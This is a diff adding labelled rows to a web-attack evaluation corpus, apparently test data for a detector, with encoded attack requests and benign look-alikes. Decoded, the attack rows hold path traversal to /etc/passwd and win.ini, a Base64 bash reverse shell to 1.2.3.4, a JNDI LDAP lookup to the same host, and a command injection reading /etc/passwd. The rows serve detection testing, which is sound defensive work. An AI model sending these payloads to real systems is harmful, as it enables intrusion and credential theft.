

Before and after one commit to sreyun/netsa, a TSV file: internal/eval/corpus/web.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/internal/eval/corpus/web.tsv
+++ b/internal/eval/corpus/web.tsv
+row 312: # 编码载荷：Base64 / Hex 编码的片段、路径中用 + 代替空格的注入，解码后再匹配
+row 313: attack | encoded | app | GET | 404 | 150 | >=high | /download?file=Li4vLi4vLi4vZXRjL3Bhc3N3ZA==
+row 314: attack | encoded | app | GET | 404 | 150 | >=high | /files/Li4vLi4vLi4vd2luZG93cy93aW4uaW5p
+row 315: attack | encoded | app | GET | 404 | 150 | >=high | /api/run?c=YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xLjIuMy40LzQ0NDQgMD4mMQ%3D%3D
+row 316: attack | encoded | app | GET | 404 | 150 | >=high | /read?file=2e2e2f2e2e2f2e2e2f6574632f706173737764
+row 317: attack | encoded | app | GET | 200 | 5000 | >=high | /x?u=JHtqbmRpOmxkYXA6Ly8xLjIuMy40OjEzODkvYX0=
+row 318: attack | encoded | app | GET | 404 | 150 | >=high | /cgi-bin/test.cgi;cat+/etc/passwd
+row 319: benign | encoded | app | GET | 200 | 5000 | none | /api/v1/me?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
+row 320: benign | encoded | app | GET | 302 | 0 | none | /login?return=aHR0cHM6Ly93d3cuZXhhbXBsZS5jb20vYWNjb3VudC9vcmRlcnM%3D
+row 321: benign | encoded | app | GET | 200 | 5000 | none | /api/items?cursor=eyJpZCI6MTIzNDUsInRzIjoxNzAwMDAwMDAwfQ&limit=20
+row 322: benign | encoded | app | GET | 200 | 5000 | none | /files/8f14e45fceea167a5a36dedd4abac8f6/report.pdf
+row 323: benign | encoded | app | GET | 200 | 5000 | none | /products/2026+spring+collection
```
Also changed, not shown: 57 other files.
